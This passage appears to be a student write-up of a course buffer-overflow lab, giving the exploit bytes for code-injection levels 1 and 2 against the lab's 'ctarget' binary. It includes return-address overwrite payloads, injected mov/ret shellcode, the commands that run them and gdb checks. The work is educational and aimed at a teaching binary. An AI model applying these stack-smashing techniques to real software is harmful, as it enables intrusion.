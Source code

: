 It shows that `rsp+40` stores `0x00401976`, which is exactly the return address to frame 1. We need to overwrite it to the `touch1` address `0x004017c0`. Write the hex representation of input in `c1.txt`. Be aware of the endianness!
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
```

Then run the below script, and the test is passed.
```sh
./hex2raw < ../c1.txt | ./ctarget -q
```

## CI Level 2

We need to pass the cookie as an integer argument into `touch2` to pass the validation. Instead of directly returning to `touch1` in level 1, we need to execute a `mov` instruction to set the argument before reaching `touch2`. This can be achieved by injecting a `mov` instruction followed by `ret`, so that we can first jump into this injected code, set the cookie as argument, and finally return to `touch2`.

To get the byte code, write an asm file, compile it and objdump it. My cookie is `0x59b997fa`.
```
$ cat c2.s
mov $0x59b997fa,%rdi
ret
$ gcc -c c2.s && objdump -d c2.o
...
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   c3                      retq  
```

We put this code snippet at the beginning of the buffer, which is always at `0x5561dc78` on the stack. We also need to push two addresses, pointing the first one to the injected code, and the second to the `touch2`. The answer is at [c2.txt](c2.txt).

Use gdb to examine the injected code.
```
./hex2raw < ../c2.txt > c2
gdb --args ./ctarget -q -i c2
(gdb) b *0x4017b4
(gdb) r
(gdb) x/2i $rsp
   0x5561dc78:  mov    $0x59b997fa,%rdi
   0x5561dc7f:  retq  
```

The memory layout is shown below before returning from `getbuf`.
```
# text:
00000000004017a8 <getbuf>:
  ...
> 4017bd:	c3                   	retq

00000000004017ec <touch2>:
  ...

# stack:
            +-----------------------------+
            |     0x00000000'004017ec     |
0x5561dca8  +-----------------------------+ <- rsp+0x8 (buf+0x30)
            |     0x00000000'5561dc78     |
0x5561dca0  +-----------------------------+ <- rsp (buf+0x28)
            |             ...             |
            +-----------------------------+
```